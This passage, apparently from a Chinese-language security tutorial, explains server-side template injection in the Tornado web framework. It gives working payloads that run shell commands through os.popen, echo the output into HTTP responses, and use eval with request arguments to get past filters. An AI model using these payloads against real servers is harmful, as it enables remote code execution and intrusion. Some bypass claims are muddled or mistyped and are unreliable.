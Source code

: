 7. `request.remote_ip`: 获取请求的客户端 IP 地址。
8. `request.protocol`: 获取请求使用的协议，如 HTTP、HTTPS 等。
9. `request.version`: 获取请求的 HTTP 版本。
10. `request.cookies`: 获取请求中的所有 Cookie，以字典形式返回。

举个例子，

1，对于 request.path 属性，如果使用 URL 编码来处理路径，那么就可以绕过路径长度的限制。例如，对于以下的路径：

```php
http://example.com/api/foo/bar
```

如果将它编码为：

```php
http://example.com/api/foo%2fbar
```

那么这个路径就会被解析为 `/api/foo/bar`，从而绕过了路径长度的限制。

2，对于 request.body 属性，如果使用分块传输编码（chunked transfer encoding）来传输数据，那么就可以绕过请求主体的大小限制。分块传输编码是一种将请求主体分成多个块进行传输的技术，每个块都有自己的长度前缀，这样就可以避免将整个请求主体一次性发送过来。这种技术可以用于绕过请求主体大小的限制，但需要服务器端和客户端都支持分块传输编码。

3，对于 request.headers 属性，如果使用自定义的 HTTP 头部来传递数据，那么就可以绕过请求头部的大小限制。由于 HTTP 协议允许自定义的头部，因此可以将数据放在自定义的头部中传递。例如，可以将数据放在 X-Data 自定义头部中，然后在服务器端使用 request.headers\['X-Data'\] 来获取数据。

写入http响应

- `request.connection.write`
- `request.connection.stream.write`
- `request.server_connection.stream.write`

例如：

```php
?name={%raw request.connection.write(("HTTP/1.1 200 OK\r\nCMD: "+__import__("os").popen("id").read()).encode()+b"hacked: ")%}'
```

该表达式通过 `__import__("os")` 导入了 Python 的 `os` 模块，然后使用 `os.popen("id").read()` 执行了一个命令，该命令会返回当前用户的 ID。然后，使用字符串拼接的方式，构造了一个 HTTP 响应头部，其中包含了一个 `CMD` 字段，该字段的值为执行命令的结果。最后，将构造好的响应头部字符串通过 `request.connection.write()` 方法写入 HTTP 响应中。

##### 利用 RequestHandler

**回显结果**

```php
RequestHandler.set_cookie：设置 cookie
RequestHandler.set_header：设置一个新的响应头
RequestHandler.redirect：重定向，可以通过 location 获取回显
RequestHandler.send_error：发送错误码和错误信息
RequestHandler.write_error：同上，被 send_error 调用
```

### 一些bypass

这也是老生常谈的话题了，一些过滤技巧完全可以参考jiajn2，mako，以及通用的python的沙箱逃逸技巧，这是还是讲到一些没有见到过的方法和思路，也算是积累以下吧

#### 绕过`.`

tornado中没有过滤器，所以我们能使用|arrt（）来绕过。方法：利用get\_argument()

```php
{{eval(handler.get_argument(request.method))}}
?GET/POST=__import__("os").popen("ls").read()
```

#### tornado函数调用

tornado中是可以直接使用global()函数的，并且可以直接调用一些python的初始方法，比如`__import__`、eval、print、hex等

```php
{{__import__("os").popen("ls").read()}}
```